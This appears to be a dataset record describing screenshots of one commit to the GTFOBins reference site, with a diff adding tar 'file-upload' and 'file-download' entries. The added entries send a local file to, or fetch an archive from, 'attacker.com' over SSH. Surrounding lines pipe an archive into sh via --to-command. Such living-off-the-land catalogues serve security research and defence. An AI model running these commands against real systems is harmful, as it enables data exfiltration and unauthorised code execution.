

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/tar.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add file-download and file-upload to tar

```diff
--- a/_gtfobins/tar.md
+++ b/_gtfobins/tar.md
@@ -11,6 +11,21 @@ functions:
         tar cf "$TF.tar" "$TF"
         tar xf "$TF.tar" --to-command sh
         rm "$TF"*
+  file-upload:
+    - description: Create tar archive and send it via SSH to a remote location. The attacker box must have the rmt utility installed.
+      code: |
+        export RHOST=attacker.com
+        export RUSER=root
+        export RFILE=/tmp/file_to_send.tar
+        export LFILE=file_to_send
+        tar cvf $RUSER@$RHOST:$RFILE $LFILE --rsh-command=/bin/ssh
+  file-download:
+    - description: Download and extract a tar archive via SSH. The attacker box must have the rmt utility installed.
+      code: |
+        export RHOST=attacker.com
+        export RUSER=root
+        export RFILE=/tmp/file_to_get.tar
+        tar xvf $RUSER@$RHOST:$RFILE --rsh-command=/bin/ssh
   file-write:
     - description: This only works for GNU tar.
       code: |
```
